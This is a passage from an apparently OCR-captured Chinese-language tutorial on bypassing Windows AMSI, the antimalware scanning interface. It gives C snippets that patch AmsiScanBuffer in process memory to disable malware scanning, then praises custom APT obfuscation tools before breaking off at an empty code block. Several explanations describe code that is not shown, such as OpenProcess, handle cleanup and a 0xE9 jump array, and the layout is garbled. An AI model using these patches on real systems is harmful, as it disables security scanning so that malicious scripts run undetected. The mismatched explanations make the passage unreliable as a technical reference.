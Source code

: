该技术涉及直接覆盖内存中 AMSI 函数的代码。  
  
```
HMODULE amsiDll = LoadLibraryA("amsi.dll");FARPROC functionAddr = GetProcAddress(amsiDll, "AmsiScanBuffer");unsignedchar patch[] = {0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3};WriteProcessMemory(GetCurrentProcess(), functionAddr, patch, sizeof(patch), NULL);
```  
  
  
  
- OpenProcess() 获取目标进程的句柄- 我们在 AMSI DLL 中  
  
找到该函数- 该数组包含指令- WriteProcessMemory() 将此代码注入目标进程的内存空间- 我们关闭进程  
句柄以清理资源AmsiOpenSession  
  
bypassXOR RAX, RAX  
  
函数挂钩  
  
这种方法涉及将 AMSI 函数重定向到自定义实现。  
  
```
FARPROC functionAddr = GetProcAddress(LoadLibrary("amsi.dll"), "AmsiScanBuffer");DWORD oldProtect;VirtualProtect(functionAddr, 1, PAGE_EXECUTE_READWRITE, &oldProtect);memcpy(functionAddr, "\x74", 1);VirtualProtect(functionAddr, 1, oldProtect, &oldProtect);
```  
  
-  我们找到AmsiScanBuffer函数  
  
- -hook数组包含0xE9，这是 x86/x64 汇编中近跳转的操作码  
  
- - 这是 5 字节跳转指令的第一个字节  
  
- - 实现将涉及计算和写入跳转偏移量以重定向到自定义函数  
  
- 高级威胁行为者和高级持续性威胁 (APT)  
APT 通常会创建自定义混淆工具，而不是使用公开工具。这些定制工具通过不为安全系统所知、利用特定弱点和频繁更新来逃避检测。它们结合了多种技术、使用零日漏洞并适应其环境，使 APT 能够长期访问受感染的系统。  
  
为了强调这一点，让我们对 0xNinjacCyclone 创建的令人难以置信的 Ruby 脚本表示赞赏：  
  
```
```
